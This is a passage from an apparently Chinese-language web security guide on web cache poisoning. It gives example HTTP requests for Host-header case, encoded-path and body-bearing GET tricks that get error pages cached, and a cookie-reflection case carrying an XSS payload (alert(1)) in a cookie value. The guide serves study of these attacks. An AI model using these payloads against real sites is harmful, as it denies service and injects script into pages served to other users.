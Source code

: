 7. **主机头部大小写规范化**：使用不同大小写的`Host`头，导致源服务器返回错误响应，并被缓存。
    ```http
    GET /img.png HTTP/1.1
    Host: Cdn.redacted.com

    HTTP/1.1 404 Not Found
    Cache:miss

    Not Found
    ```

8. **路径规范化**：使用编码的路径，导致源服务器返回错误响应，并被缓存。
    ```http
    GET /api/v1%2e1/user HTTP/1.1
    Host: redacted.com


    HTTP/1.1 404 Not Found
    Cach:miss

    Not Found
    ```

9.  **带有主体的GET请求（Fat GET）**：发送包含主体的GET请求，导致源服务器返回错误响应，并被缓存。
    ```http
    GET /index.html HTTP/2
    Host: redacted.com
    Content-Length: 3

    xyz


    HTTP/2 403 Forbidden
    Cache: hit
    ```

##### **Using web cache poisoning to exploit cookie-handling vulnerabilities**

```http
GET / HTTP/1.1
Host: vulnerable.com
Cookie: session=VftzO7ZtiBj5zNLRAuFpXpSQLjS4lBmU; fehost=asd"%2balert(1)%2b"
```

- 某些服务器会将请求中的 Cookie 值反射到响应中（例如用于个性化内容）。
- 缓存服务器未将 Cookie 视为缓存键的一部分。
- 这会导致所有用户的请求使用相同的缓存条目，而忽略了其实际 Cookie 值。


##### **Cache Poisoning via URL discrepancies**
